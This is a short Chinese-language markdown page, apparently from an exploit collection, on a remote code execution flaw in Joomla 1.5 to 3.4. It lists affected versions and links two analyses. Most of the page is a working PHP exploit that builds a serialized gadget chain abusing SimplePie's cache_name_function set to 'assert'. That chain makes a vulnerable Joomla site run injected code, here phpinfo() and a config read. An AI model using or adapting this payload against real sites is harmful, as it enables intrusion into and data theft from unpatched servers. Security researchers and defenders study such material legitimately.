 # Joomla远程代码执行漏洞
## 影响范围
* `Joomla 1.5 to 3.4 all version`
## 分析
* [https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
* PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患[https://github.com/80vul/phpcodz/blob/master/research/pch-013.md](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)

## EXP
```php
<?php
//header("Content-Type: text/plain");
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
echo serialize($a); 
```
## POC
由上述代码生成
